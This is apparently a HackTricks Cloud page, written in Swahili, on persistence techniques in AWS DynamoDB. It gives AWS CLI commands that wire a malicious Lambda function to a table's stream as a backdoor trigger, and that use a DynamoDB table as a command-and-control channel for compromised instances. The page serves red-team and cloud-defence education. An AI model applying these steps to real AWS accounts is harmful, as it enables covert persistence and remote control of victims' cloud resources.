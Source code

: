 # AWS - DynamoDB Persistence

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

### DynamoDB

Kwa habari zaidi tembelea:

{% content-ref url="../aws-services/aws-dynamodb-enum.md" %}
[aws-dynamodb-enum.md](../aws-services/aws-dynamodb-enum.md)
{% endcontent-ref %}

### Vitanzi vya DynamoDB na Nyuma ya Lambda

Kwa kutumia vitanzi vya DynamoDB, mkaidi anaweza kuunda **nyuma ya mlango wa siri** kwa kuunganisha kazi ya Lambda yenye nia mbaya na meza. Kazi ya Lambda inaweza kuzinduliwa wakati kipengee kinapoongezwa, kimebadilishwa, au kimefutwa, kuruhusu mkaidi kutekeleza nambari ya kupendelea ndani ya akaunti ya AWS.

{% code overflow="wrap" %}
```bash
# Create a malicious Lambda function
aws lambda create-function \
--function-name MaliciousFunction \
--runtime nodejs14.x \
--role <LAMBDA_ROLE_ARN> \
--handler index.handler \
--zip-file fileb://malicious_function.zip \
--region <region>

# Associate the Lambda function with the DynamoDB table as a trigger
aws dynamodbstreams describe-stream \
--table-name TargetTable \
--region <region>

# Note the "StreamArn" from the output
aws lambda create-event-source-mapping \
--function-name MaliciousFunction \
--event-source <STREAM_ARN> \
--region <region>
```
{% endcode %}

Kudumisha uthabiti, mshambuliaji anaweza kuunda au kuhariri vitu katika meza ya DynamoDB, ambayo itaanzisha kazi ya Lambda yenye nia mbaya. Hii inamruhusu mshambuliaji kutekeleza nambari ndani ya akaunti ya AWS bila mwingiliano moja kwa moja na kazi ya Lambda.

### DynamoDB kama Kituo cha Udhibiti na Amri (C2)

Mshambuliaji anaweza kutumia meza ya DynamoDB kama **kituo cha udhibiti na amri (C2)** kwa kuunda vitu vinavyoleta amri na kutumia mifano iliyoharibiwa au kazi za Lambda kuchukua na kutekeleza amri hizi.

```bash
# Create a DynamoDB table for C2
aws dynamodb create-table \
--table-name C2Table \
--attribute-definitions AttributeName=CommandId,AttributeType=S \
--key-schema AttributeName=CommandId,KeyType=HASH \
--provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
--region <region>

# Insert a command into the table
aws dynamodb put-item \
--table-name C2Table \
--item '{"CommandId": {"S": "cmd1"}, "Command": {"S": "malicious_command"}}' \
--region <region>
```

Instances au Lambda zilizoharibiwa zinaweza kwa kipindi kuchunguza meza ya C2 kwa amri mpya, kuzitekeleza, na hiari kuripoti matokeo kwenye meza. Hii inamruhusu muhusika kuweka uthabiti na udhibiti juu ya rasilimali zilizoharibiwa.
